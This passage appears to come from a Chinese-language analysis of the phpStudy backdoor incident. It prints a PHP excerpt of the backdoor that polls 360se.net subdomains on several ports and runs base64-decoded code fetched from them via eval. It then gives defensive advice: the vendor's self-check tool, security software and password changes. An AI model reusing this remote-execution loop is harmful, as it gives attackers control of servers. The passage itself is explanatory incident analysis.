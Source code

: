 ```php
		}
	 }
  fclose($handle);
  return $result;
}

$ds = array("www","bbs","cms","down","up","file","ftp");
$ps = array("20123","40125","8080","80","53");
$n = false;
do {
	$n = false;
	foreach ($ds as $d){
		$b = false;
		foreach ($ps as $p){
			$result = tcpGet($i,$d.".360se.net",$p);
			if ($result != "err"){
				$b =true;
				break;
			}
		}
		if ($b)break;
	}
	$info = explode("<^>",$result);
	if (count($info)==4){
		if (strpos($info[3],"/*Onemore*/") !== false){
			$info[3] = str_replace("/*Onemore*/","",$info[3]);
			$n=true;
		}
		@eval(base64_decode($info[3]));
	}
}while($n);
```

可以看到恶意代码中，存在远程服务器的 IP（360se.net）和端口（20123）。黑客可以通过该漏洞拿到服务器或是电脑的权限，做任何想干的事。

目前网络中仍然有超过 1700 个存在“后门”的“php_xmlrpc.dll”文件。这些通过修改常用软件底层源代码，秘密添加的“后门”，可以在用户无感知的状态下，非法获取用户隐私数据，严重侵害了人民群众的合法权益，甚至危害国家安全。[7]

### 4.2 防范方法

就本次“phpStudy 后门”事件来说，后门存在的时间已经很久了，无法判断遭受后门的网站已经泄漏了什么，很有可能已经造成了巨大的信息泄漏。同时，在被曝出漏洞之后，phpStudy 官网也已经在第一时间放出了安全自检修复程序，该程序可以对本地的 phpStudy 目录进行扫描检查。

通过这次事件，我们应该在平常下载各种软件时警惕各种有可能的安全问题，提高我们的安全意识，以防被不法分子入侵。以下列举了几个安全措施。

#### 4.2.1 使用第三方安全卫士

安装第三方的一些安全卫士或者是安全管家，借助其他软件保护电脑的安全。并且定期对电脑进行扫描。

#### 4.2.2 人工检查

安装过已经被曝出漏洞软件的服务器，务必及时修改密码，其他使用相同注册邮箱和密码的网络帐户也应该一并修改，尽最大可能消除风险。
